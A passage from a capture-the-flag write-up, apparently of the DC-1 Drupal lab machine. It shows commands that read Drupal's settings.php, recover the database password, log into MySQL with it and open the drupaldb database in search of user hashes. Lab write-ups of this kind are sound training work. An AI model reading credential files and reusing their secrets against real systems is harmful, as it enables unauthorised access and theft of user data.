 Inside the drupal **settings.php** we find flag2 and a hint

{% highlight bash %}
cat /var/www/sites/default/settings.php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
.........
{% endhighlight %}

### flag 3

Using the mysql credentials found in **settings.php** I sucessfully connected and could access the **drupaldb** database and went straight for the users table but it was not possible to crack the hashes 


{% highlight bash %}

www-data@DC-1:/tmp$ mysql -u dbuser -p
mysql -u dbuser -p
Enter password: R0ck3t

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19893
Server version: 5.5.60-0+deb7u1 (Debian)


mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupaldb           |
+--------------------+
2 rows in set (0.01 sec)

mysql> use drupaldb
use drupaldb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
